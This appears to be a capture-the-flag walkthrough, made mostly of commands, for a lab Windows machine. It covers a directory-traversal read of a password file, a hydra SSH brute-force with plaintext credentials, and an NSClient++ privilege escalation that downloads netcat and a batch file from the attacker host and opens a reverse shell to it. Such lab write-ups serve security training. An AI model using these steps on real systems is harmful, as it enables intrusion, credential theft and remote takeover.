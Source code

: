 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.184
```
![image](https://github.com/user-attachments/assets/a313103a-0e86-4faa-8270-9879e148cc2e)

```
ftp 10.10.10.184
anonymous:anonymous
```
![image](https://github.com/user-attachments/assets/0ff21dc1-81f9-4f12-bee4-635f1a249ade)

![image](https://github.com/user-attachments/assets/f43fd30d-1e25-4c7b-86e7-464d674ea2ed)

```
http://10.10.10.184
```
![image](https://github.com/user-attachments/assets/f6f1c705-0907-4773-8db1-84e9ef8c1649)

```
nvms 1000 exploit
https://www.exploit-db.com/exploits/48311
```
![image](https://github.com/user-attachments/assets/f1710fe7-fdf5-40db-912f-6a911580e317)

![image](https://github.com/user-attachments/assets/c04dfb6a-a1bb-4a8c-964b-5cc4b7e7fee5)

```
http://10.10.10.184/Pages/login.htm
/../../../../../../../../../../../../windows/win.ini
```
![image](https://github.com/user-attachments/assets/0d9f6310-4342-4b69-a5a1-8f1eec0b20de)

![image](https://github.com/user-attachments/assets/b489f478-226d-4977-a643-207796c8fa52)

```
/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
![image](https://github.com/user-attachments/assets/f9cf7130-e0dc-4694-9997-a0d9b03b350f)

```
hydra -v -V -u -L users.txt -P passwords.txt -t 10 -u 10.10.10.184 ssh
```
![image](https://github.com/user-attachments/assets/f17637bf-6d86-4854-a606-d7df15feae19)

![image](https://github.com/user-attachments/assets/3e6601e3-5717-42c0-808b-d9bb2fb60085)

```
ssh Nadine@10.10.10.184
L1k3B1gBut7s@W0rk
```
![image](https://github.com/user-attachments/assets/99007e34-13e4-454b-9abc-137e67d22991)

```
Powershell
whoami /priv
```
![image](https://github.com/user-attachments/assets/4cba395f-a2f2-4bbb-b358-2504e7170d29)

```
searchsploit 'NSClient++'
```
![image](https://github.com/user-attachments/assets/62cd7886-2c6b-4f61-a0bf-2416204811e0)

```
cd "C:\Program Files\NSClient++\“
ew2x6SsGTxjRwXOT
```
![image](https://github.com/user-attachments/assets/017d2e31-134e-4d0f-94f8-d0406f14dd40)

```
https://www.exploit-db.com/exploits/46802
```
![image](https://github.com/user-attachments/assets/d97fcdb8-7f80-4c7d-9679-ad5618af7495)


```
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
```
![image](https://github.com/user-attachments/assets/6f0008e4-794f-4bb3-a9f0-c23c5364cee0)

```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
https://127.0.0.1:8443
```
![image](https://github.com/user-attachments/assets/41f170fd-d6b7-42bf-b5e7-dd5388417da5)

![image](https://github.com/user-attachments/assets/f6f02615-74d2-43c6-b446-07f2cd00f4d2)

```
\programdata\nc.exe 10.10.14.7 443 -e cmd
cd C:\programdata\
powershell wget http://10.10.14.7/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.7/shell.bat -outfile shell.bat
```
![image](https://github.com/user-attachments/assets/5e3f3c3e-471a-4802-a430-15906f904a7b)

![image](https://github.com/user-attachments/assets/d7796056-a14b-478e-b774-62dcbd600a69)

```
/settings/external scripts/scripts/df
Command
C:\programdata\shell.bat
```
![image](https://github.com/user-attachments/assets/11e195a2-8a1a-4ee5-a50c-0344f3a8b726)


```
/settings/scheduler/schedules/df_run
Interval
10s
Command
df
```
![image](https://github.com/user-attachments/assets/ea4e2b44-7b07-4168-a276-a2415e865b7f)

![image](https://github.com/user-attachments/assets/135208e6-7467-40bd-b1ec-0325e52e077d)

![image](https://github.com/user-attachments/assets/f0b058aa-a573-44bd-9426-3ae7c18ae066)

```
rlwrap nc -lnvp 443
Trigger with Module - CheckExternalScripts
```
![image](https://github.com/user-attachments/assets/781c07d4-dde6-46e9-8f0d-cddb88a83974)
